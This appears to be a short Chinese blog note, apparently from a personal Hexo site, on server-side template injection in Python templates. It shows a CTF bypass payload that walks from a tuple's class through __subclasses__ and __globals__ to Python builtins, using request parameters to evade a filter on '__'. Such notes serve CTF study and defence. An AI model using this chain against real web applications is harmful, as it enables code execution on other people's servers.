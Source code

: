 ```yaml
---
title: SSTI
date: 2018-09-13 21:29:56
tags:
categories:
thumbnail:
---
```


# SSTI服务端模版注入

SSTI 即[服务端模板注入](https://www.cnblogs.com/tyomcat/p/5440488.html)

- Python

  - 例子

```
{{ shell }}
{%if 表达式 %}内容1{% else %}内容2{% endif %}
```

  - `__` 被过滤，我们可以考虑使用 `[]` 结合 `request`来进行绕过，比如
```
{% if ()[request.args.a]%}
```
​	url中 `/bbs?a=__class__`

  - 下面是之前的一次CTF中的SSTI绕过

```python
set chr=()__class__.__base__.__subclasses__()[59].__init__.__globals__.__builtins__.chr
# 注册chr函数
{%set chr=()[request.args.a][request.args.b][request.args.c]()[59][request.args.a1][request.args.a2][request.args.a3].chr %}
# url
a=__class__&b=__base__&c=__subclasses__&d=pop&e=/flag&a1=__init__&a2=__globals__&a3=__builtins__
```

- modal劫持

  https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html

突然发现hexo也有个模块存在注入，会对

```
{% %}
```

报错。[参见](https://github.com/hexojs/hexo/issues/2992)